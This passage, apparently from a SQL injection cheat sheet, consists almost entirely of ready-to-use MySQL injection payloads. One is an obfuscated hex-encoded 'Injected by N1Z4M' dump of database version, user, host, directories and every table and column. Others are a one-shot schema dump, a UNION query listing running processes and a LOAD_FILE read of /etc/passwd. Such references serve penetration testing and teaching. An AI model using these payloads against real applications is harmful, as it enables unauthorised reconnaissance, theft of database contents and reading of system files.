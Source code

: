 ```sql
+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

-- sharik
(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
```

## MYSQL Current queries

This table can list all operations that DB is performing at the moment.

```sql
union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

-- Dump in one shot example for the table content.
union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL Read content of a file

Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```
